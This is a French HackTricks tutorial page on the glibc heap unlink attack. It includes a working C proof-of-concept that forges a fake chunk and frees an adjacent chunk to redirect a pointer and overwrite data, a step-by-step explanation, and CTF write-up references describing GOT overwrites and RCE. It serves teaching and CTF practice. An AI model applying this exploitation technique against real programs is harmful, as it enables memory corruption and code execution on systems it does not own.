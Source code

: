 # Attaque Unlink

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de Base

Lorsque cette attaque a été découverte, elle permettait principalement un WWW (Write What Where), cependant, certaines **vérifications ont été ajoutées** rendant la nouvelle version de l'attaque plus intéressante mais plus complexe et **inutile**.

### Exemple de Code:

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* L'attaque ne fonctionne pas si les tcaches sont utilisés (après 2.26)

### Objectif

Cette attaque permet de **changer un pointeur vers un chunk pour le faire pointer 3 adresses avant lui-même**. Si ce nouvel emplacement (alentours de l'endroit où se trouvait le pointeur) contient des éléments intéressants, comme d'autres allocations contrôlables / la pile..., il est possible de les lire/écraser pour causer un plus grand dommage.

* Si ce pointeur était situé dans la pile, car il pointe maintenant 3 adresses avant lui-même et que l'utilisateur peut potentiellement le lire et le modifier, il sera possible de divulguer des informations sensibles de la pile ou même de modifier l'adresse de retour (peut-être) sans toucher au canary
* Dans les exemples de CTF, ce pointeur est situé dans un tableau de pointeurs vers d'autres allocations, donc, en le faisant pointer 3 adresses avant et en étant capable de le lire et de l'écrire, il est possible de faire pointer les autres pointeurs vers d'autres adresses.\
Comme potentiellement l'utilisateur peut également lire/écrire les autres allocations, il peut divulguer des informations ou écraser de nouvelles adresses à des emplacements arbitraires (comme dans la GOT).

### Prérequis

* Un certain contrôle dans une mémoire (par exemple la pile) pour créer quelques chunks en donnant des valeurs à certaines des attributs.
* Fuite de pile pour définir les pointeurs du faux chunk.

### Attaque

* Il y a quelques chunks (chunk1 et chunk2)
* L'attaquant contrôle le contenu de chunk1 et les en-têtes de chunk2.
* Dans chunk1, l'attaquant crée la structure d'un faux chunk :
* Pour contourner les protections, il s'assure que le champ `size` est correct pour éviter l'erreur : `corrupted size vs. prev_size while consolidating`
* et les champs `fd` et `bk` du faux chunk pointent là où le pointeur de chunk1 est stocké avec des décalages de -3 et -2 respectivement, donc `fake_chunk->fd->bk` et `fake_chunk->bk->fd` pointent vers la position en mémoire (pile) où se trouve l'adresse réelle de chunk1 :

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Les en-têtes du chunk2 sont modifiés pour indiquer que le chunk précédent n'est pas utilisé et que la taille est la taille du faux chunk contenu.
* Lorsque le deuxième chunk est libéré, ce faux chunk est désenchaîné se produisant :
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Auparavant, il a été fait en sorte que `fake_chunk->fd->bk` et `fake_chunk->fd->bk` pointent vers le même endroit (l'emplacement dans la pile où `chunk1` était stocké, donc c'était une liste chaînée valide). Comme **les deux pointent vers le même endroit**, seul le dernier (`fake_chunk->bk->fd = fake_chunk->fd`) aura **effet**.
* Cela va **écraser le pointeur vers chunk1 dans la pile vers l'adresse (ou les octets) stockés 3 adresses avant dans la pile**.
* Par conséquent, si un attaquant pouvait contrôler à nouveau le contenu du chunk1, il pourra **écrire dans la pile** en étant potentiellement capable d'écraser l'adresse de retour en sautant le canary et de modifier les valeurs et les points des variables locales. Même en modifiant à nouveau l'adresse de chunk1 stockée dans la pile vers un emplacement différent où si l'attaquant pouvait contrôler à nouveau le contenu de chunk1, il pourra écrire n'importe où.
* Notez que cela était possible car les **adresses sont stockées dans la pile**. Le risque et l'exploitation peuvent dépendre de **l'endroit où les adresses du faux chunk sont stockées**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Références

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Bien qu'il soit étrange de trouver une attaque de désenchaînement même dans un CTF, voici quelques writeups où cette attaque a été utilisée :
* Exemple de CTF : [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Dans cet exemple, au lieu de la pile, il y a un tableau d'adresses malloc'ées. L'attaque de désenchaînement est effectuée pour pouvoir allouer un chunk ici, permettant ainsi de contrôler les pointeurs du tableau d'adresses malloc'ées. Ensuite, il y a une autre fonctionnalité qui permet de modifier le contenu des chunks dans ces adresses, ce qui permet de pointer des adresses vers la GOT, de modifier les adresses de fonction pour obtenir des fuites de libc et RCE.
* Autre exemple de CTF : [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Tout comme dans l'exemple précédent, il y a un tableau d'adresses d'allocations. Il est possible d'effectuer une attaque de désenchaînement pour faire pointer l'adresse de la première allocation quelques positions avant le début du tableau et d'écraser ensuite cette allocation à la nouvelle position. Par conséquent, il est possible d'écraser les pointeurs d'autres allocations pour pointer vers la GOT de atoi, l'imprimer pour obtenir une fuite de libc, puis écraser atoi GOT avec l'adresse d'un one gadget.
* Exemple de CTF avec des fonctions malloc et free personnalisées qui exploitent une vulnérabilité très similaire à l'attaque de désenchaînement : [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Il y a un débordement qui permet de contrôler les pointeurs FD et BK du malloc personnalisé qui sera (personnalisé) libéré. De plus, le tas a le bit exec, il est donc possible de divulguer une adresse de tas et de pointer une fonction de la GOT vers un chunk de tas avec un shellcode à exécuter.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 le [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
